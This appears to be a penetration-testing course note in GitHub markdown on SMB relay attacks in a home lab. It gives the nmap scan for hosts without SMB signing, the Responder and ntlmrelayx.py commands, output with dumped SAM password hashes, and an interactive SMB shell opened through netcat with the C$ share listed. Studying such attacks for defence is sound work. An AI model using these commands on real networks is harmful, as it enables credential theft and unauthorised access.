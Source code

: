 # SMB Relay Attacks

## What is SMB Relay

![image](https://user-images.githubusercontent.com/96747355/167957290-5eee0e72-c551-41a6-b4e8-1576692615b9.png)  
*Source: TCM Security Academy*  
![image](https://user-images.githubusercontent.com/96747355/167957396-3dba4765-9007-4fe3-989c-cefc2422e5e4.png)  
*Source: TCM Security Academy*  

## Discovering hosts

- Possible with [Nessus](https://www.tenable.com/products/nessus)
- With [Nmap](https://nmap.org/)
```nmap --script=smb2-security-mode.nse -p445 10.0.2.0/24```
Example of what we get with this scan:
```
┌──(root💀kali)-[/home/kali]
└─# nmap --script=smb2-security-mode.nse -p445 10.0.2.0/24    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-29 16:36 EST
[STRIPPED]

Nmap scan report for 10.0.2.4
Host is up (0.00062s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:FC:72:E9 (Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

Nmap scan report for 10.0.2.5
Host is up (0.00052s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:7F:90:90 (Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required

Nmap scan report for 10.0.2.15
Host is up (0.00059s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:AE:C1:68 (Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

[STRIPPED]

Nmap done: 256 IP addresses (5 hosts up) scanned in 28.67 seconds
```
The domain controller has `enable` and `required`, we wont relay on this machine.

## SMB Relay Attack

### Attack 1st way

- In responder config (Responder.conf) we put http and smb on off
- Responder command
```responder -I eth0 -rdwv```
- Launch ntlmrelayx.py (our target ips are in targets.txt)
```ntlmrelayx.py -tf targets.txt -smb2support```
- We should get som hashes on our kali
```
[*] Done dumping SAM hashes for host: 10.0.2.4
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:25e61d7e5702c678e3be8711c03b7837:::
Jessica Jones:1001:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
```

### Attack 2nd way

- We launch Responder (with http and smb off), we launch ntlmrelayx.py just like befor but with -i to try to get an interactive shell.
```ntlmrelayx.py -tf targets.txt -smb2support -i```

- It should work and mention that we got a shell
```
[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Received connection from 10.0.2.15, attacking target smb://10.0.2.4
[*] Authenticating against smb://10.0.2.4 as MARVEL\fcastle SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[STRIPPED]
```

- We can netcat to get the shell:
```nc 127.0.0.1 11000```
- We have an smb shell:
```
└─# nc 127.0.0.1 11000                                        
Type help for list of commands
# help

open {host,port=445} - opens a SMB connection against the target host/port
login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
logoff - logs off
shares - list available shares
use {sharename} - connect to an specific share
cd {path} - changes the current directory to {path}
lcd {path} - changes the current local directory to {path}
pwd - shows current remote directory
password - changes the user password, the new password will be prompted for input
ls {wildcard} - lists all the files in the current directory
rm {file} - removes the selected file
mkdir {dirname} - creates the directory under the current path
rmdir {dirname} - removes the directory under the current path
put {filename} - uploads the filename into the current path
get {filename} - downloads the filename from the current path
mount {target,path} - creates a mount point from {path} to {target} (admin required)
umount {path} - removes the mount point at {path} without deleting the directory (admin required)
info - returns NetrServerInfo main results
who - returns the sessions currently connected at the target host (admin required)
close - closes the current SMB Session
exit - terminates the server process (and this session)
# shares
ADMIN$
C$
IPC$
Share
# use C$
# ls
drw-rw-rw-          0  Fri Jan 28 19:29:18 2022 $Recycle.Bin
drw-rw-rw-          0  Fri Jan 28 20:21:23 2022 Documents and Settings
-rw-rw-rw-       8192  Sat Jan 29 16:14:20 2022 DumpStack.log.tmp
-rw-rw-rw- 1543503872  Sat Jan 29 16:14:20 2022 pagefile.sys
drw-rw-rw-          0  Fri Jan 28 20:18:41 2022 PerfLogs
drw-rw-rw-          0  Fri Jan 28 17:29:12 2022 Program Files
drw-rw-rw-          0  Fri Jan 28 20:18:41 2022 Program Files (x86)
drw-rw-rw-          0  Fri Jan 28 19:26:15 2022 ProgramData
drw-rw-rw-          0  Fri Jan 28 20:21:29 2022 Recovery
drw-rw-rw-          0  Fri Jan 28 19:33:38 2022 Share
-rw-rw-rw-  268435456  Sat Jan 29 16:14:20 2022 swapfile.sys
drw-rw-rw-          0  Fri Jan 28 17:21:44 2022 System Volume Information
drw-rw-rw-          0  Fri Jan 28 19:28:21 2022 Users
drw-rw-rw-          0  Fri Jan 28 17:23:30 2022 Windows
#
```
*Note: ntlmrelayx.py is really powerfull and has many commands, we could even launch other shells.*

## SMB Relay attack Defenses

![image](https://user-images.githubusercontent.com/96747355/167957563-c1a2d775-3c4a-4aec-94ac-08dc5d0c505d.png)  
*Source: TCM Security Academy*  
